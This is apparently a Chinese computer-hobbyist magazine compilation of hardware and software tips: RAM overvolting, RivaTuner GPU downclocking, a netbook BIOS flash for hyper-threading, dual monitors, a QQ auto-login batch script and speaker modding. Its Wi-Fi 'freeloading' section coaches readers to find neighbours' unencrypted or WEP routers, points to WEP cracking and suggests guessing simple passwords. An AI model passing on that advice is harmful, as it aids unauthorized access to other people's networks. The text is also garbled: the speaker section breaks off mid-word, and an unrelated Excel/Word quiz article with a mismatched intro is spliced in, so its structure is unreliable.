> 超频的稳定性来源于内存电压的设置，一个高的频率当然也需要一个比较高的内存电压才能实现。对于DDR2 1.8V的默认电压来说，要想让内存运行在1000MHz 5-5-5-15，则最好是把电压提高到2.0V左右。由于DDR2采用先进的FBGA方式封装，因此即使电压达到2.3V依然可以稳定工作。但是前提是您的内存要有较好的体质，而我们一般不推荐用户加这么高的电压，以免损害内存。长期在高电压下运行的话，内存的发热量也是不可小觑的，必须要做好散热（可加装内存风扇和散热片），这样一来可以散热，二来可以保护FBGA脆弱的芯片，且最大化屏蔽机箱内的电磁干扰，使内存能更稳定地运行。否则内存会因为温度过高而变得不稳定，甚至影响其寿命。

## 2D、3D分开用，显卡频率自动调

夏天的临近，许多玩家又开始担心起电脑主机的散热问题。加上夏季往往是用电负荷最大的时期，因此散热和节能这两个主旋律又被联系到了一起。作为电脑硬件中的发热大户：显卡，更是需要加以额外的关注。尤其对于一些采用9600GT、9600GSO、9800GT之类显卡的用户，这个档次的显卡自身的发热量相当可观。故此，手动给显卡添加2D、3D分频功能是一个非常有效的降温措施，同时还能实现显卡的动态节能。

### 什么是显卡的2D、3D分频功能？

为了更有效地节约能源，nVIDIA和ATI的部分显卡都具备了2D、3D分频功能。2D、3D分频功能指的是显卡执行负载较低的2D画面时，把核心频率、流处理器频率以及显存频率降低，在减少能耗的同时降低显卡整体的发热量。当显卡一旦处理3D画面或满负载运行时，自动地将核心频率、流处理器频率以及显存频率切换到正常频率下，以满足数据处理的需要。由于2D、3D分频功能需要一定的软硬件支持，故此并不是所有显卡都具备该功能。

### 不具备2D、3D分频功能的显卡要受到夏日高温的考验

“冬天防寒，夏天防暑”已经是不少电脑玩家每年都要进行的“二防”工作。尤其是显卡，随着核心功耗的不断增加，更是成为防暑降温的重点关照对象。加上夏季往往是一年中用电量最高的季节，因此给显卡降温的同时再给显卡降低能耗、节省下少许的电能，可以说是件一举两得的美事。

### 更新显卡BIOS或利用“Rivatuner”软件 给显卡添加2D、3D分频功能

对于给9600GT、9600GSO、9800GT之类的显卡添加2D、3D分频功能主要有以下两种手段。

更新显卡BIOS风险大，初级用户慎用。用户可以留意一下所购买显卡品牌的官方网站，查找一下是否有所购买显卡对应的具备2D、3D分频功能的显卡BIOS，然后按不同厂家的刷新办法更新固件。不过刷显卡固件的难度要稍高于刷主板的固件，同时在刷新前还应该注意一下固件所对应的显卡型号以及版本号，以免把显卡刷坏。故此对于初级玩家来说，刷新显卡的固件还是存在一定难度和相当大的风险的，为了降温反而把显卡刷坏有点得不偿失，此举不建议初级玩家采用。

Rivatuner软修改较简单，只需动几下鼠标。除了更新BIOS之外，玩家还可以利用“Rivatuner”这款显卡监控软件来实现2D、3D分频功能。相比更新BIOS，Rivatuner是驱动层面上的控制和调节，从某种意义上来说，只要调节得当，就不会造成硬件的损坏。因此哪怕是初级玩家，也能轻松上手。

### 教你使用Rivatuner添加2D、3D分频功能

对于9600GT、9600GSO、9800GT之类的显卡，由于3D处于高频率下，因此只需要在显卡中添加2D时降频的频率模式即可。

首先，下载“RivaTuner”这款软件，该软件的最新版本为2.24。在第一次启动“RivaTuner”时，软件会对硬件做一个检测工作，以便了解硬件及驱动信息。在此，笔者选用了一块9600GT的显卡进行操作。

- 第一步：选择“Main”选项卡，然后点击“Driver Setting”右边的小三角，选择“System Settings”。然后把“Link clocks”前的钩打上，以保证 “Core clock” 和 “Shader clock” 的频率比例（见图1）。由于 “RivaTuner” 里已经有 “2D”、“Low 3D” 和 “Performance3D” 三个频率，因此在不设置超频的前提下，只要将2D中的频率往下调整即可。



- 第二步：调整确定以上项目后，进入到软件主界面的 “Launcher” 选项卡。点左下角的 “+” 号，选 “Regular Items”（见图2）。



- 第三步：然后会进入 “Regular menu item editor” 选项。在 “Name” 中输入对应的模式，为便于管理，建议起名为 “2D”，勾选Associated ‘overclocking profile’，选择 “2D”，就是刚才建好的配置名，点右下角的 “OK” 即可保存设置（见图3）。这样就已经可以实现手工切换显卡频率了。



- 第四步：有没有办法自动实现2D、3D频率切换呢？虽然 “RivaTuner” 没有这个显卡运行模式的检测功能，不过依然可以通过对显存容量的使用量来判断显卡频率是否需要降速。

因为2D模式下显存使用量非常低，像上网、聊天这些显存使用量只有十几MB。而看电影，正常情况下也不会超过90MB的占用量的。而一旦运行3D游戏，那么显存占用就会在90MB以上了，故此可以在显存使用量低于90MB的时候，使用2D的配置文件，也就是给显卡降频；在显存使用量高于90MB的时候，使用正常配置文件，从而实现2D、3D频率切换。

- 第五步：显存使用检测功能需要启用 “RivaTuner” 的硬件监控，在 “Main” 选项卡单击 “Target Adapter” 右边的小三角，选 “Hardware Monitoring”，保证小红按钮处于按下状态，监控才能在后台一直运行。点 “Setup”，在 “Data” 里把需要监控的内容勾选，检测显存使用量需要使用插件，点 “Plugins”，勾选vidmen.dll并确定，就可以在 “Data” 选择 “Videomemory Usage” 了（见图4）。



- 第六步：监控设置完成后，就可以在 “Scheduler” 添加计划任务了。点 “+” 号，命名为 “2D”，默认是 “Launch item”，“Name” 选择2D配置文件，“Scheduler” 选择 “Run on hardware monitoring range event”，“Data source” 选择 “Videomemory usage”，“Rang min” 和 “Rang max” 就是一个显存占用区间，2D下设置为最小0，最大 “90”，因为基本上2D的应用都不会超过90MB的显存容量，不过玩家也可以根据自己的喜好调节。



而后的 “Data sampling period”、“Task freezing period” 分别是指软件数据的采样参数，分别设定成 “5000” 和 “6000” 即可。如果数值过小的话，容易造成系统负载过重而性能下降（见图5）。

完成以上全部设计就可以实现2D、3D频率自动切换了。虽然该方法并不是通过显卡的运行状态进行切换，而是利用显存的使用情况判断显卡是运行在2D或3D模式下，但是整体来说，效果还是相当接近的。加上纯软件的操作，只要设置得当就无需担心会出现硬件损坏的问题，故此非常推荐初级玩家选用。

### 降频也需有节制

由于nVIDIA的显卡其Core Clock（核心频率）和Shader Clock（着色器频率）并不是同频设计的，而是有一个比例关系，所以在调节时，同样要注意按照其比例进行调节，不然容易造成显卡花屏的情况。所以需要在频率调节面板打上 “Link clocks” 前的钩，你在调节Core Clock时，Shader Clock的频率也会相应地进行调整，这样就保证了频率比例的固定。

另外，根据调节的经验来看，降频幅度不应超过50%，不然显卡也非常容易出现显卡工作异常的情况。以笔者的9600GT为例，降频前的2D频率是650MHz，降频后设置成400MHz是比较好的幅度。

### 一个当两个用，上网本开启超线程

MultiThreading多线程就是在一个单个的处理核心内同时运行多个工作线程的技术配置，而Atom N270支持超线程技术，开启后性能有所提升，但实际操作时有很多笔记本必须通过升级BIOS才能开启超线程功能。

### 寻找超线程BIOS

从技术原理来看，Atom N270的确支持超线程技术，但开启超线程技术，必须确保主板BIOS支持，不过此时功耗也会有所提升，因此对于Linux版易PC，厂商可能在BIOS中屏蔽了超线程指令，用户即便是在BIOS中打开相关选项，同样无法开启超线程技术。

经过查询对比，XP版易PC 1000H可开启超线程。而Linux版易PC 1000H与前者只是预装系统的不同，也就是说，二者的BIOS可以完全通用。因此XP版易PC的BIOS，可帮助Linux版易PC成功开启超线程技术。

> 为了以防万一，升级之前请备份原始BIOS文件，如果遇到BIOS程序不通用或升级失败，可利用备份的BIOS文件修复笔记本。

### 超线程应用

成功升级BIOS后，开机按ESC键进入BIOS设置中，切换到“Advanced”设置项中，将“Max CPUID Value Limit”设置为“Disabled”即可（见图4），关掉即为开启HT超线程选择，保存退出后登录XP系统。进入“设备管理器”，此时会看到两个CPU核心，说明超线程技术已经成功开启。

### 实战BIOS升级

笔者登录华硕官方网站，查找并下载XP版易PC 1000H的最新BIOS程序，下载并安装ASUS Update升级工具。

运行ASUS Update工具，选择“从档案升级BIOS”，点击“下一步”按钮，选择下载并解压的BIOS文件（见图1），点击“升级”按钮开始升级BIOS，升级后提示重新启动系统时，点击“是”按钮即可（见图2）。





如果在改装XP之前升级BIOS，此时需要将下载得到的ROM文件拷贝到U盘根目录下。重启系统之后，在开机画面时同时按下Alt+F2键，之后会提示找到USB设备，并自动读取ROM文件进行BIOS升级(见图3)，大约等待5分钟之后，提示成功完成，请重新启动系统。





我们用压缩软件与大型Excel文档的多任务处理进行了测试。对200MB视频文件进行压缩，然后同时打开容量为10MB的Excel文档，此时CPU占用率为69%，而未开启前则达到了82%。开启文档的速度也有了明显增加，可见超线程技术对多任务处理有着明显的辅助作用。由于超线程技术的实现，实际上是将以往的“闲置”资源充分利用，每个逻辑处理器均可以单独对两个程序中断做出响应，模拟出两个CPU进行“同步”处理。这样虽然可以带来性能上的提升，可是也增加了实际的功耗。我们在压缩文件的同时观看720P影片，并使用电池供电，原本可以续航4小时多的电池，在3小时42分时就发出了警报，由此可以看出超线程技术带来的功耗提升确实是立竿见影的。

打开超线程技术确实带来了性能的提升，即使是在实用环节中，也有至少10%的提升空间。但是这并不是一个免费的午餐，超线程技术将带来CPU功耗的明显增加，从而对散热、续航、功耗提出了更高的要求。按照许多上网本的设计初衷是没有考虑到CPU功耗大幅提升后所带来的压力的，很可能热量堆积造成对CPU以及周边配件的不利影响，因此对于上网本而言，超线程技术虽然看上去很美，但是带来的副作用还是应该令消费者谨慎使用。

## 笔记本最适合用双显示器

这两年显示器的更新换代非常快，你是否有淘汰下来的显示器呢？当作废品处理实在是太可惜了，让它们再发挥下余热吧。目前流行的显卡都有两个接口，配置双显示器，并把旧的显示器当作一个附属屏幕，是个不错的方案。相对于台式机动辄28英寸的显示器来说，本本才14英寸左右的屏幕未免太小了，把它当作台式机使用的时候屏幕空间狭小很不爽，有没有办法能够扩展本本的屏幕空间呢？使用双显示器就可以办到。下面我们就来分析并实现双显示器的安装和优化。

### 双显示器的硬件需求

组成双显示器硬件门槛并不高，只需要显卡支持双头输出或者拥有两块显卡，并且再拥有一台显示器即可。和台式机不一样，本本已附带了一个VGA接口（少量有DVI、HDMI），外接显示器不需要再加显卡了。组成双显示器只需要购买一台具有同样接口的显示器即可，显示器点距和分辨率最好接近本本的显示器，这样看起来舒服些。

### 设置显卡使用双显示器

本本安装驱动之后，本身就可以实现双头输出了，不信你接上外接显示器按下屏幕切换键看看（见图1）。按下Fn+切换键会在仅笔记本屏幕、仅外接显示器、同时使用外接显示器和本本显示器三种模式之间切换。



#### 第一步：设置扩展桌面

在桌面空白处点击右键→选择“个性化”→显示设置。在显示设置中选择新显示器，并设置合适的分辨率、颜色，勾选将桌面扩展到该显示器上”（见图2）。如果分辨率设置无效，可暂不用管。



#### 第二步：设置屏幕参数和相对位置

桌面空白处点击右键→“ATI催化剂控制中心”。进入控制中心“显示器管理”。点击一个显示器，根据下方的标示判断是否是新加的外接显示器。选中新加入的显示器，如果显示器在本本显示器的左边，则把新显示器拖到本本自带显示器的左边（见图3），否则显示的桌面会错位。



在下方的“桌面区域”中，设置合适的分辨率。到这里双显示器显示应该正常了。

### 使用UltraMon优化双显示器

执行到上面一步为止，双显示器是可以正常使用的，只是软件默认都在主窗口打开，需要手动拖动到另外的显示器上才行；而且扩展桌面没有一个像样的任务栏，调度程序很不方便。所以我使用UltraMon来帮助我用好双显示器，UltraMon可以在http://www.cbifamily.com/download/200903.html下载得到。

安装运行，这时候扩展桌面已经有了一个任务栏。当然这个任务栏和主窗口的任务栏不一样，没有开始按钮也没有托盘区更没有快速启动栏，而且只显示副显示器上面的程序。与此同时，每个窗口上面都添加了两个按钮，分别起到拉伸窗口和移动窗口到另一个显示器的作用；在每个快捷方式的“属性”中添加了两个和UltraMon相关的选项卡（见图4）。UltraMon会记住程序上次运行所在的显示器，这样用起来很方便。



### 双显示器的用处

我们这里所说的双显示器，是指每个显示器显示不同的内容。一般在计算机教学网络上使用的双显示器系统，是通过多显示适配器使多台显示器同时看见一台电脑的显示内容，这种系统不属于我们今天讨论的范围。

双显示器最直接的好处当然是有了更多的屏幕区域。如果你在一个穷老板手下打工，老板不愿意给你买21英寸的显示器，把两个小显示器组合起来也许是一个不错的办法。如果同时运行了多个应用程序，你可以把它们分别放置在不同的显示器上，这能够使你避免频繁地在任务栏上进行任务切换。当应用程序使用多个子窗口时，你可以将它们拖动到第二显示器上，以获得更多更大的工作空间；如果你进行Web编程，你只要把两个显示器设置为不同的分辨率，就可以同时观看你的页面在不同分辨率下的表现；对于程序员而言，可以在编写代码的同时看到程序的输出结果。当然，如果你也玩游戏，比方说玩《Delta Force》，第二显示器就可以作为后视装置，你就不用担心被身后不明身份的人不明不白地干掉了。

## 蹭网也要讲技巧

蹭网已是一件时髦的事，种种“蹭网秘笈”、“简明蹭网指南”、“10分钟破解无线路由器密码步骤”层出不穷。一些“蹭网专业户”级别的网民，热衷于“晒”出自己采购或自制的蹭网设备，交流“天线防锈”之类的经验。很多无线路由器是加了密的，有的则是共享的；有的路由器信号强，有的路由器信号弱，有没有办法简单搜索到最适合我们蹭网的路由器呢？

### 蹭网优先选择的路由器

如果要蹭网，优先选择那些信号强、加密措施弱的无线路由器。Wi-fi信号越强，传输速度越高，要上网得爽，首先选择那些信号强的路由器。

由于安全性方面的考虑，现在很多无线路由器都启用了加密措施，加密强度依次为：WPA2、WPA、WEP，相对来说前两者较难破解，目前的破解基本走的是暴力破解的路子。所以我们优先寻找没有加密的无线接入点，其次寻找WEP加密的接入点，然后再进行破解。WEP的破解方法可以参考相关文章。

### 用WirelessMon寻找有用的接入点

**第一步：** 下载软件并安装，之后运行WirelessMon。首先在“Select Network Card”(见图)中选择当前所使用的无线网卡，然后选择“Reload Cards”。这时软件会自动扫描所有周边的无线接入点。软件可以在http://www.newhua.com/soft/47676.htm下载。

**第二步：** 如图，我们主要关注下方的列表。其中SSID就是接入点的标识，Channel代表的是使用的通道，而我们最关心的就是RSSI和Security两个项目。其中RSSI用柱状图表示这个接入点的信号强度，而Security表示的是接入点要求的安全设置。“Required”说明需要密码，“(WPA)”表示接入点使用WPA加密，根据分析我们自然对WPA的接入点敬而远之。



> 小提示
> 如果实在没有其他选择，输入几个常见的密码试试看，例如输入SSID的字符、12345之类简单的密码，或许这个路由器的密码就这么简单。有时候即使输入了正确的密码、信号很强也无法使用这个接入点，那么它可能使用了MAC地址过滤，碰到这种路由器还是直接更换一个接入点吧。

**第三步：** 先按照安全性排序，寻找弱加密的路由器(接入点)，然后在其中找到信号最强的路由器(建议RSSI值大于-80)，然后在列表中双击这个接入点或者点击右键选择“Connect To AP”连接接入点。如果选择的是加密的路由器，得自己设置Authentication Method、Encryption Method。

**第四步：** 连接上之后，在表的上部就能看到接入点的一些情况。我们最关心的是那个有“十字星”的图，这个图表示的是信号强弱。越靠里或者剩余圈圈的颜色越“红”那么表示信号越差；点击左边的“Graphs”选项卡，这里可以绘制信号强度百分比和时间的关系图。如果这个接入点实在不稳定，那就赶紧换一个吧。

### 自动登录QQ的改进脚本

2009年第2期《电脑爱好者》中的文章《和谐共处，多个QQ自动登录》介绍了一种自动登录QQ的方法，但在实际使用中发现：设定的几个QQ号并不能连续运行，只有当第一行调用的QQ号码被关闭之后，才会继续执行第二行的命令登录第二个QQ号，这显然不是我们想要的效果。即使使用这个脚本登录单个QQ号，也需要手动关闭命令提示窗口，稍显麻烦。下面给大家介绍一个改进过的脚本（有关Vista任务管理器、PWDHASH加密算法等知识不再重复，请参考原文）。

```
@echo off
::生成临时脚本 "1.bat"，下面一行参数 "/EMB-HWND:0 /NOAUTOSCAN" 的作用是隐身登录，如不想隐身可去除、
echo "C:\Program Files\Tencent\QQ\QQ.exe" /START QQUIN:QQ号码1 PWDHASH:PG8CkPKA08UZTol8MoPTwg== /start:10 /EMB-HWND:0 /NOAUTOSCAN>1.bat
echo exit>>1.bat
echo.>>1.bat

::生成临时脚本 "2.bat"
echo "C:\Program Files\Tencent\QQ\QQ.exe" /START QQUIN:QQ号码2 PWDHASH:PH8Ck32508UZTol8MoPTwg== /start:40 /EMB-HWND:0 /NOAUTOSCAN>2.bat
echo exit>>2.bat
echo.>>2.bat

::调用这两个脚本
start /b 1.bat
start /b 2.bat
::延迟1秒钟以等待QQ程序运行，可根据需要自行设定时间(/time:N，即延迟N秒，N为整数，如设置为0则始终等待用户点击退出)
echo %time%
msg %username% /time:1 /w "1秒钟后自动关闭，可点击确定直接关闭"
echo %time%

::删除刚刚生成的临时脚本
del 1.bat
del 2.bat

::关闭命令提示窗口并退出程序 .
taskkill /f /im cmd.exe
```

将上面的代码输入记事本，另存为“QQ自动登录.bat”，（“::”及其后的文字只起说明作用，可不必输入）双击即可自动登录QQ。成功登录后，命令提示窗口将自动关闭。

## 摩机技巧小放送

音箱在日常的应用中，我们可以通过对音箱的改造进而提升音箱的性能，让其播放的音质和音效更佳，或更适合自己的具体需要。按用户对音箱认识的深浅程度，具有分有普通改造和高级改造的两种不同层次的操作方式，具体如下。

### 普通改造

普通改造即通过一些基本的、操作上较为简单易行的逻辑改造，由于这种改造在操作上比较简单，因此对于大众音箱用户都适用。

- 1. 倒相式音箱改造

在市面上，有一些倒相式的音箱制作工艺粗糙，往往只在音箱的后面随意地开设一个窟窿，作为音箱的倒相孔，然后再配置一根大约长度的倒相管，而形成倒相式音箱。这些制作工艺粗糙的倒相式音箱通常箱体会出现漏气以及在箱体内都没有吸音材料，因而一般在测试时可以听出声音浑浊和层次感差等。这时如果选用了这些的音箱，可以对这些音箱进行调教，将其改造为封闭式音箱。

在改造时，只要使用棉布等物品将倒相孔堵塞即可，这样虽然会在实际收听的时候声音小了，但是却也可以使倒音箱的失真度比较小，过滤了不干净的音源，同时可使到低音的收听效果清晰一些。此外，当发现自己的低音炮的低音效果比较浑浊的时候，也可试试使用这种方法，让收听的低音变得清晰。

- 2. 减少音箱的谐振性

大部分有源多媒体音箱的谐振性都比较严重，这是由于它们使用的木板密度不够，造成箱体比较轻，这时如果播放的声音较大一些，音箱箱体就会跟着震动，而影响了播放的音效。尤其是长期使用的音箱，木板之间由于钉子的松动而出现缝隙等的现象。对于这种情况，想要从根本上解决问题，可以采用下面“高级改造”方法中的改造音箱箱体内容进行改造，或尽量使用木板密度较高、重量比较重一些的音箱，将整个音箱箱体更换。

如果不想动手改造音箱的木板或更换音箱，也可使用脚钉，或找一些比较硬的物件（比如垫片、橡胶垫等），将音箱垫起来。此外，也可适当地在音箱上压上一些较重的物件（例如厚的书本、方方正正的铅或铁块等），不过也要注意不要把音箱压坏了。这种方法就是尽量将音箱垫起来，以及增加音箱的重量，从而尽量减少音箱的谐振性。在经过上面的改造之后，也可有效地改善声音播放的音效。其次，也要检查箱体是否有漏气、缝隙等的情况，如果有则可以用布片、玻璃胶或热熔胶将箱体漏气或缝隙处（尤其是箱体的边角）封住。

- 3. 音箱的煲箱技巧

通常新购买回来的高档音箱都需要经过煲箱的过程，使倒音箱达到最佳的播放效果。所谓煲箱，就是指通过长时间播放音乐，帮助新器材迅速磨合，使倒音箱的各个组成部件的物理特性达到较佳的播放效果。比如新喇叭的振动系统，初时可能会比较紧、比较硬；但通过煲箱就可以让它的振动系统松弛下来，参数也趋于稳定，因此音质会变好。这就似新买回来的摩托车需要经过磨合期，新买回来的钢琴需要经过一定时间的“试音”一样。

这里需要注意，煲箱不仅适用于新音箱，对于旧的音箱同样适用，而且同样可以将音箱的音质提高。就如同运动员需要热身一样，对音箱进行预热后，可以发挥出音箱的最佳状态。另外，煲箱的过程并不是所有的音箱都适用的，只有300元以上的中、高档音箱才适宜采用煲箱。对于300元以内的低档音箱，其煲箱的效用甚少，甚至不起任何作用。

如果不经过煲箱的过程，这样在初听时会发觉音箱的效果不佳，甚至会出现误会音箱的质量差的现象。其实这是由于没有经过适当的煲箱过程而已。其中音箱在煲箱时需要有耐心，对于不同牌子、不同型号的音箱其煲箱的时间都会有所不同。有的不用一个星期（例如惠威的M200），有的则几个星期都不见效（例如惠威的T200a）。然而，在对音箱进行煲箱时的操作，没有一定的规律，具体的作法也因人和音箱而异，但是具体在进行煲箱时需要注意的事项，以及总结煲箱的经验可分有以下三个阶段：

从低频到高频煲箱。使用专用的讯号碟从20Hz到20kHz频率连续播放；通常音乐发烧友手中都有这样的记录20Hz到20kHz正弦波讯号的CD，这样从低频到高频循环播放，效果会很好。如果没有这样的CD，可使用音箱测试软件（例如短歌行音频测试者Audio100 tester软件）生成纯净的正弦波讯号进行播放亦可。这里需要注意，由于讯号碟不是乐曲，所以声音大了格外吵人。在播放时，首先可以使用正常音量播放2小时以上，然后再用最大安全音量播放2小时（注：这里不是最大音量，而是按照音箱说明书上标注的安全音量）。这样在经过了一段时间（一般4个小时以上），就差不多了。

高、中、低频煲箱。在这一阶段中，我们可以选用如梁祝的弦乐、钢琴曲等的高频CD，如蔡琴、格尔的天堂等的中频CD和如鼓诗、阿姐鼓等的低频CD循环播放，让音箱在不同的频段中得到锻炼，从而打通这三个频段的播放性能。这一阶段的煲箱时间需要长一些，一般不要少于50小时。

全频煲箱。最后，我们可以侧重于音箱的全频带锻炼，这里可以选用例如著名的加州旅店CD和交响乐类的CD进行煲箱，由于在这一阶段中播放的都是动听的音乐，因此也可一边煲箱一边享受音乐。这一煲箱的时间，大约需要两个星期。

在经过以上三个阶段的煲箱过程后，基本上音箱就可以进入到最佳的播放状态了。

### 高级改造

高级改造即改造音箱的箱体、元件等的需要动手的物理改造。由于这种改造方法都具有一定的难度和危险性（损坏音箱），因此只适合音乐爱好者、发烧友，以及已经具有一定专业改造技能的用户。下面分别从音箱的各组成元件讲述具体的改造方法。

#### 1.音箱喇叭

喇叭在音箱中的作用不言而喻，它是一个直接决定着音箱质量的重要元件。喇叭的改造对改造多媒体音箱来说也尤为重要。

由于目前市面上常见的多媒体音箱所用喇叭的采购价格从几元到十几元左右为主流，价格高的一般也不过二十元左右，以及市场上价格竞争剧烈的因素，通常厂家在选用喇叭的时候，往往选用廉价、外观好和有一定的卖点的喇叭。只有极少的厂家会考虑到喇叭的音质，更难得有厂家会考虑到是否适合于多媒体音箱的特点。而真正适合于多媒体音箱的喇叭，通常价格一般都会超过二十元，甚至超过百元。所以，如果发现自己所用的音箱音质不佳，即可检查音箱喇叭的牌子和质量，必要时可以改用国内例如银笛、南鲸的一些著名厂商的喇叭（换四个这样的单元在一百元左右）。此外，也考虑改用短歌行的eA系列多媒体音箱专用喇叭（换四个这样的单元在两百元左右），或例如“西雅士”、“威发”等成本较高的国外著名厂商的喇叭单元。

#### 2.分频器

众所周知，在一个音箱中往往会有安装有两个或两个以上的喇叭单元。这样就出现了对频率的分配，需将输入的音频讯号分为几个不同频段，让不同播放频率的喇叭单元播放。而在音箱里面负责这一功能的元件就是分频器了。因此，分频器的作用非常重要。一般中低档有源音箱往往使用简单的单电容分频，成本低但效果差，而高档音箱如惠威M200音箱的分频器则配置经过精心设计、调整以及由多元件构成。目前常见的分频器都是两分频或三分频来解决音频覆盖的问题（见图1）。



正因为音箱的分频器质量不好，也会影响音箱的质量，这样就需要用质量好一些的电子元件将音箱分频器里的电子元件更换了。通常劣质的音箱分频器往往只在高音喇叭上连接一个有极性、无极性或无极性薄膜2~3μF的电容，然而按要求最好是用一个音频专用的无感聚丙烯电容，这种电容高频特性好、损耗小，能很好地保障音箱的音质。此外，如果条件允许，可将音箱的整个分频器都更换了，采用质量较好一些的分频器。在更换的时候，最好可以根据喇叭单元的特性和仪器测量结果，而采用或自行设计专用的分频器（见图2）。



#### 3.音箱箱体

从上面的“减少音箱的谐振性”中我们知道音箱箱体质量的优劣对音箱质量的影响。目前市面上的高、中、低档木质和塑料的多媒体音箱箱体质量也确实参差不齐，普通的音箱箱体都存在着不同的问题，影响实际收听的效果。因此，音箱的箱体也是常见的改造部分。改造音箱箱体，可以采用加固箱体和在箱体内放置吸音材料的方法。当然，如果自己有更好的箱体材料，完全可以更换音箱的箱体，或根据喇叭单元的特性和厂家的推荐图纸自行设计另一个更好的音箱。

对于音箱箱体制作材料单薄的问题，可以通过加固的方法来解决。通常制作材料单薄的音箱的谐振性比较严重，这些箱体的制作材料一般是用密度较低的纤维板，这样可以使用同样的材料为箱体进行加固。加固分有加固边侧和加固边角两种，一般共振不很严重的音箱可以在中低音喇叭单元所在位置的侧边内部（即从喇叭正面看进去左右两边的箱体），视使用的音箱大小，使用例如白乳胶等的介质粘贴上大小适当的纤维板材或与音箱相同的板材来加固。

如果音箱的共振比较严重的，除了上述地方需要加固外，在箱体的四角和上下部的内侧面都需要粘贴适当的板材加固。四角的加固板材要和箱体的边角贴紧，而上下部的加固板材的长度由箱体上下部的大小而定，在贴于箱体的上下两面时，须粘贴在内部中间位置。此外，有的发烧友在采用加固方法改造音箱箱体时，会在音箱的内部采用沥青或水泥，打加热的沥青或糊好的水泥粘在音箱的内部。改造后箱体可以明显减轻共振现象（见图3）。



在加固音箱箱体的同时，也可以在箱体内部的喇叭后面放置适当厚度的吸音棉（如羊毛、晴纶棉、毛线等，不过要注意不要使用有害健康的矿棉），布满箱体内部侧面板和后面板。这样可以避免扬声器前后侧产生的声波互相干扰、抵消的情况。不过这里需要注意，如果使用的是2.0式的音箱，由于主音箱的内部通常都安装有变压器和功/运放电路，因此不建议在主音箱中放置吸音棉，只须在副箱中放置即可，避免影响了主箱的散热。而使用X.1结构的音箱，由于功/运放电路通常是安装在低音炮内的，而各个卫星箱的容积都很少，所以可以不必加进吸音棉，只要在低音炮喇...# 随心所欲改变客观题答案的位置

传统的汉字笔顺教学，一般是老师将汉字的笔画分解写在黑板上，然后再给学生讲解先写哪一笔，再写哪一笔，最后又写哪一笔。想想看吧！这样的教学怎么能引起一年级小学生的学习兴趣呢？其实，只需利用PPT，我们就可以做出生动形象的汉字按笔顺书写的特效来。

文/吴廷永

这几年，我省初中生毕业考试一直加试信息技术，教师需要把题库中的客观题（单项选择题、多项选择题、判断题）从题库中导出，并在Word中编辑打印出来，供学生复习参考。

①在Excel中进行技术处理。在E2单元格中输入“=d2&d2&b2&a2&“、”&c2”，我们不妨把这步操作描述为“题目答案+题目答案+题目类型+题目编号+、+题目内容”，即把前面几个单元格中的数据按一定的顺序连在一起。之所以用两个“题目答案”，是为了把题目答案中的字母与四个选项的“A、B、C、D”区分开，如果还有顾虑，还可以再多加几个“题目答案”。拖动填充柄完成E列其它单元格公式的复制。

②选中E列相应的数据并复制到Word中。复制相应的数据，启动Word，点选“编辑”、“选择性粘贴”、“无格式文本”、“确定”，你会发现“题目答案”出现在题目的最前面，而且每个单选题的内容都被“”包围起来，有几个选择题就有几对“”（多项选择题也有，判断题没有），另外还有许多没用的空段。

| 题目类型 | 题目内容 | 题目答案 |
| ---- | ---- | ---- |
| 单选题 | 上网查阅资料A | |
| 单选题 | 下列属于信A | |
| 单选题 | 下面不属于C | |

下面以单项选择题为例说明后面的操作方法：

③去掉每个选择题前后一对对的“”，删除多余的空段。查找栏输入：“(*)””，替换栏输入“\1”，勾选“使用通配符”，单击“全部替换”即可删除捣乱的“”。查找栏输入：“^13{1,33}”，替换栏输入“^13”，勾选“使用通配符”，单击“全部替换”即可删除多余的空段。

④把对应的答案移动到题目说明的后面，且完成答案AA、BB、CC、DD到A、B、C、D的转变。查找栏输入：“([A-D])([A-D])(*)(^13)”，替换栏输入“\3\1\4”，勾选“使用通配符”，单击“全部替换”。 多项选择题的操作与单项选择题的操作大同小异。在Excel中的操作：因为正确答案至少有两个选项，所以在E2单元格中应输入“=d2&b2&a2&“、”&c2”，其操作可描述为“题目答案+题目类型+题目编号+、+题目内容”；在Word中的操作：对应的第④步在查找栏输入：“([A-D]{2,4})(*)(^13)”，替换栏输入“\2\1\3”，单击“全部替换”。 判断题的操作：判断题的题目答案是“YES、NO”（让答案更醒目，在Excel中可把“YES”、“NO”分别替换成“√”、“×”。），没有了A、B、C、D四个选项“捣乱”，只需在E2单元格中输入“=b2&a2&“、”&c2&d2”，拖动填充柄完成E列其它单元格公式的复制，再选中E列相应的数据复制、“无格式文本”粘贴到Word中，再用上边介绍的方法删除多余的空段就行了。 试一试，是不是很爽呀。







### 4.改造电源

电源是音箱工作的能量保障，它能保障音箱稳定地工作，同时也可保障能够发挥出音箱的最佳效果。一个低内阻、大容量、低波纹的电源会很好地保障音箱的音质。因而，除非自己已经确定音箱的电源质量较好，否则要想提升或改善音箱的音质，对电源的适当改造也是有必要的。电源的改造，可以采用更换高质量的品牌电源和在现有电源的基础上更换高质量的电子元件。在更换高质量电子元件方面，可以加装电源滤波器、换装更高品质更大容量的滤波电容（例如将原先耐压为25V、容量为4700μF的电容，换为耐压35V，容量4700μF以上的电容），同时再并联小容量的无感聚丙烯电容，这样经过改造之后，电源的性能会得到进一步的改善（见图5、图6）。

## 内存排障全攻略

内存的运算速度、容量带宽，直接影响到电脑整机的性能，它与CPU之间存在总线带宽、数据交换速率的关系，因此CPU技术的发展离不开内存的支持。在CPU以日新月异的速度发展的过程中，内存也经历了多次更新换代。

内存，也称系统存储器、Memory、存储器，它是电脑系统中必不可少的基本部件，负责系统临时数据的存储，也是CPU与其他设备沟通的桥梁。在电脑运行时，CPU需要的数据要从内存读取，CPU运行的结果要暂存到内存中，CPU与各种外部设备打交道，也需要通过内存进行，内存在电脑中担任的任务就是“短暂记忆”。因此，内存的优劣、快慢与容量是决定电脑性能的一个关键因素。

内存在工作时，首先从CPU获得查找某个数据的指令，然后在找出存取资料的位置时（这个动作称为“寻址”），它先定出横坐标（即“列地址”）再定出纵坐标（即“行地址”），这就好像在地图上画个十字标记一样，非常准确地定出这个地方。

对于电脑系统而言，找出这个地方时还必须确定位置是否正确，因此电脑还必须判读该地址的信号，横坐标有横坐标的信号（即RAS信号），纵坐标有纵坐标的信号（即CAS信号），最后再进行读或写的动作。因此，内存在读写时至少必须有五个步骤：分别是画十字（内有定地址两个操作以及判读地址两个信号，共四个操作），以及或读或写的操作，才能完成内存的存取操作。

## 内存技术与种类

